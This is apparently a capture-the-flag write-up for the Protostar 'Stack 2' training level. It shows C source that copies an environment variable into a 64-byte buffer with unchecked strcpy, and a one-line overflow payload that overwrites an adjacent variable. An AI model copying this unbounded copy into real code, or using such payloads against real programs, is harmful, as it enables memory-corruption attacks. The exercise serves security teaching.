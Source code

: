 # Protostar - Stack 2

### About ###

>Stack2 looks at environment variables, and how they can be set.
>
>This level is at `/opt/protostar/bin/stack2

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### Solution ###

This challenge is pretty much the same as `Stack 2`, except that in this one the entry point is located in the environment variable `GREENIE` and not the argument `argv[1]`.

```
user@protostar:/tmp$ GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'") stack2
you have correctly modified the variable
```